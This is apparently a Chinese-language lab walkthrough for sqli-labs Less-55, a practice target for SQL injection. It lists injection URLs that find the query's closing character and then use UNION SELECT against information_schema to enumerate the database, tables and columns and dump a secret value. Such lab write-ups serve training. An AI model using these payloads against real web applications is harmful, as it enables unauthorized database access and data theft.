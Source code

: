 ```yaml
---
title: Less - 55
date: 2023-03-24T13:27:58Z
lastmod: 2023-03-24T19:08:07Z
---
```


# Less - 55

---

# 通关教程

---

## 1、判断闭合方式

---

```http
http://192.168.23.128/sqli-labs/Less-55/?id=1--+ #回显错误
http://192.168.23.128/sqli-labs/Less-55/?id=1'--+ #回显错误
http://192.168.23.128/sqli-labs/Less-55/?id=1"--+ #回显错误
http://192.168.23.128/sqli-labs/Less-55/?id=1)--+ #回显正常
```

​![image](assets/image-20230324133233-3im60nv.png)​所以判断这里为数字型注入

---

## 2、查看当前库

---

```http
http://192.168.23.128/sqli-labs/Less-55/?id=-1) union select 1,2,database()--+
```

​![image](assets/image-20230324190345-63gam22.png)​

---

## 3、查看challenges库下的所有表

---

```http
http://192.168.23.128/sqli-labs/Less-55/?id=-1) union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='challenges')--+
```

​![image](assets/image-20230324190428-rex1c1a.png)​

---

## 4、查看fmu3heha81表下的所有字段

---

```http
http://192.168.23.128/sqli-labs/Less-55/?id=-1) union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='fmu3heha81')--+
```

​![image](assets/image-20230324190548-u1lxcmd.png)​

---

## 5、查看secret_A4Z0字段下的值

---

```http
http://192.168.23.128/sqli-labs/Less-55/?id=-1) union select 1,2,(select group_concat(secret_A4Z0) from challenges.fmu3heha81)--+
```

​![image](assets/image-20230324190723-c18lrz4.png)​

​![image](assets/image-20230324190805-z9bm7wc.png)​

‍
